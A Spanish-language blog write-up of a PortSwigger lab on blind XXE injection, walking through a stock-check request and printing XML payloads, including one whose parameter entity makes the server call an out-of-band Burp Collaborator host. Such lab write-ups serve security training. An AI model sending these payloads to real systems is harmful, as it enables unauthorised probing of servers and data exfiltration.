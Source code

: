 ```yaml
---
title: XXE Injection Lab 4
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Blind XXE with out-of-band interaction via XML parameter entities
image:
  path: /assets/img/XXE-Injection-Lab-4/Portswigger.png
---
```


## Skills

- Blind XXE with out-of-band interaction via XML parameter entities

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una función de `Check stock` que analiza la entrada XML, pero `no muestra valores inesperados` y `bloquea` las `solicitudes` que contienen `entidades externas regulares`. Para resolver el laboratorio, debemos utilizar una `entidad` de `parámetro` para que el `analizador XML` realice una `búsqueda DNS` y una `solicitud HTTP` a `Burp Collaborator`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-4/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-4/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-4/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

La da un `error` al `enviar` la `petición`, esto se debe a que `no` podemos `llamar` a una `entidad` desde los campos existentes, en este caso la `entidad` declarada es `xxe`

![](/assets/img/XXE-Injection-Lab-4/image_4.png)

Nos vamos a `Burpsuite Collaborator` y pulsamos en `Copy to clipboard`, este dominio obtenido lo vamos a usar para construir este `payload`, el `%` sirve para `llamar` a la `entidad` desde el `DTD` creado

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y observamos que hemos `obtenido respuesta`

![](/assets/img/XXE-Injection-Lab-4/image_5.png)

